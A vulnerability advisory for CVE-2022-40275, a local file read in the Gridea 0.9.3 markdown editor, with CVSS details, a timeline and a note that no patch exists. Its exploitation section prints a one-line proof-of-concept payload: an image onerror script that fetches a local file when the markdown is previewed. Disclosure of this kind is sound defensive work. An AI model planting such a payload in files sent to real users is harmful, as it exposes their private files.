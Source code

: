 ```yaml
---
slug: advisories/deadmau5/
title: Gridea 0.9.3  -  Local File Read
authors: Carlos Bello
writer: cbello
codename: deadmau5
product: Gridea 0.9.3
date: 2022-09-09 20:30 COT
cveid: CVE-2022-40275
severity: 6.5
description: Gridea 0.9.3  -  Local File Read
keywords: Fluid Attacks, Security, Vulnerabilities, Gridea
banner: advisories-bg
advise: no
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Gridea 0.9.3  -  Local File Read                       |
| **Code name**         | [Deadmau5](https://en.wikipedia.org/wiki/Deadmau5)     |
| **Product**           | Gridea                                                 |
| **Affected versions** | Version 0.9.3                                          |
| **State**             | Private                                                |
| **Release date**      | 2022-09-09                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Lack of data validation - URL                                                                          |
| **Rule**              | [141. Lack of data validation - URL](https://docs.fluidattacks.com/criteria/vulnerabilities/141)       |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N                                                           |
| **CVSSv3 Base Score** | 6.5                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-40275](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40275)                        |

## Description

Gridea version 0.9.3 allows an external attacker to remotely obtain
arbitrary local files on any client that attempts to view a malicious
markdown file through Gridea. This is possible because the application
does not have a CSP policy (or at least not strict enough) and/or does
not properly validate the contents of markdown files before rendering
them.

## Vulnerability

This vulnerability occurs because the application does not have a CSP policy
(or at least not strict enough) and/or does not properly validate the contents
of markdown files before rendering them.  Because of the above, an attacker can
embed malicious JS code in a markdown file and send it to the victim to view and
thus achieve an exfiltration of their local files.

## Exploitation

To exploit this vulnerability, you must send the following file to a user to open
with Gridea. The exploit is triggered when the user presses "CTRL+P" or simply
clicks "preview".

### exploit.md

```markdown
<img src="1" onerror='fetch("file:///etc/private").then(data => data.text()).then(leak => alert(leak));'/>
```

## Our security police

We have reserved the CVE-2022-40275 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Gridea 0.9.3

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/getgridea/gridea>

## Timeline

<time-lapse
  discovered="2022-09-05"
  contacted="2022-09-05"
  replied=""
  confirmed="2022-09-00"
  patched=""
  disclosure="2022-09-00">
</time-lapse>
